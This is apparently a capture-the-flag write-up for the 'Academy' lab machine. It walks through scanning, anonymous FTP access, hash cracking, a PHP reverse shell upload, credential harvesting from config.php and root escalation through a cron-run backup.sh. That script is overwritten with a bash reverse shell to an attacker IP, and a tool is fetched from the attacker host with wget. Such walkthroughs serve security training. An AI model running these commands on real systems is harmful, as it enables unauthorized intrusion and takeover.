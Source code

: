 # Academy CTF – Full Walkthrough

This file contains a complete step-by-step guide to rooting the Academy CTF machine.

---

## 🔍 1. Reconnaissance

```bash
nmap -T4 -p- -A <target-ip>
```

### Open Ports:
- FTP (21)
- SSH (22)
- HTTP (80)

---

## 📂 2. FTP Enumeration

```bash
ftp <target-ip>
# Login: anonymous
```
- Found file: `note.txt`
- Contained a username and hashed password

---

## 🔓 3. Cracking the Hash

Used online tools like CrackStation to crack the password hash in `note.txt`.

---

## 🌐 4. Web Enumeration

```bash
ffuf -u http://<target-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
- Found `/academy` portal
- Logged in using cracked credentials

---

## 🐚 5. File Upload Exploitation

Uploaded a PHP reverse shell via the web interface.

On attacker's machine:
```bash
nc -nlvp 1234
```

Got shell as `www-data`.

---

## 🧠 6. Enumeration and Privilege Escalation Prep

Located `config.php` under `/var/www/html/academy/includes/`.

```bash
cat config.php
```
- Found credentials for user `grimmie`.

---

## 🔑 7. SSH Access as grimmie

```bash
ssh grimmie@<target-ip>
```

---

## 🚀 8. Privilege Escalation via backup.sh

### Step 1: Confirmed `backup.sh` is executed as root via cron
Used pspy64:

```bash
wget http://<your-ip>/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

Saw this line:
```bash
CMD: UID=0    | /bin/bash /home/grimmie/backup.sh
```

### Step 2: Exploited it

On attacker's machine:
```bash
nc -nlvp 4444
```

On target (as grimmie):
```bash
echo '#!/bin/bash' > /home/grimmie/backup.sh
echo 'bash -c "bash -i >& /dev/tcp/192.168.96.129/4444 0>&1"' >> /home/grimmie/backup.sh
chmod +x /home/grimmie/backup.sh
```

After 1–2 minutes, received root shell.

---

## 🏁 9. Proof of Root

```bash
whoami
# root

cat /root/root.txt
```

---

> Created by Tejas Kottarshettar – CTF | VAPT | Red Team Learner
